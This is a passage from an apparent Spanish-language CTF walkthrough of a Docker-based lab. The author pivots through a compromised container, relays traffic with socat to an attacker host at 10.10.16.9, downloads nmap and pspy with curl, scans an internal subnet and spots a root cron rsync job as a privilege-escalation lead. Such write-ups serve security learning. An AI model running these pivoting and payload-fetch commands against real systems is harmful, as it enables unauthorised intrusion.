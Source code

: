 ```null
www-data@www:$ whoami
www-data
www-data@www:$ hostname -I
172.19.0.3 172.20.0.3 
```

Vuelvo a subir el nmap para escanear el otro segmento

```null
root@nodered:/tmp# ./socat TCP-LISTEN:1111,fork TCP:10.10.16.9:8000
```

```null
www-data@www:/tmp$ __curl http://172.19.0.4:1111/nmap > nmap
```

```null
www-data@www:/tmp$ ./nmap 172.20.0.1/24

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-03-09 08:59 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.20.0.1
Host is up (0.00039s latency).
All 1205 scanned ports on 172.20.0.1 are closed

Nmap scan report for reddish_composition_backup_1.reddish_composition_internal-network-2 (172.20.0.2)
Host is up (0.00043s latency).
Not shown: 1204 closed ports
PORT    STATE SERVICE
873/tcp open  rsync

Nmap scan report for www (172.20.0.3)
Host is up (0.00047s latency).
Not shown: 1204 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 256 IP addresses (3 hosts up) scanned in 16.57 seconds
```

Antes de continuar por ahí, busco formas de escalar privilegios en el contenedor. Subo el ```pspy```

```null
www-data@www:/tmp$ __curl http://172.19.0.4:1111/pspy > pspy
```

Encuentra procesos interesantes

```null
2023/03/09 09:06:01 CMD: UID=0    PID=705    | /bin/sh -c sh /backup/backup.sh 
2023/03/09 09:06:01 CMD: UID=0    PID=704    | /usr/sbin/CRON 
2023/03/09 09:06:01 CMD: UID=0    PID=708    | sh /backup/backup.sh 
2023/03/09 09:06:01 CMD: UID=0    PID=709    | sh /backup/backup.sh 
2023/03/09 09:06:01 CMD: UID=0    PID=710    | rsync -a rsync://backup:873/src/backup/ /var/www/html/ 
2023/03/09 09:06:01 CMD: UID=0    PID=711    | 
2023/03/09 09:06:01 CMD: UID=0    PID=712    | /usr/sbin/CRON 
2023/03/09 09:06:01 CMD: UID=109  PID=714    | /usr/sbin/sendmail -i -FCronDaemon -B8BITMIME -oem root 
2023/03/09 09:06:01 CMD: UID=109  PID=716    | /usr/sbin/exim4 -Mc 1paCDp-0000BU-Kp 
```
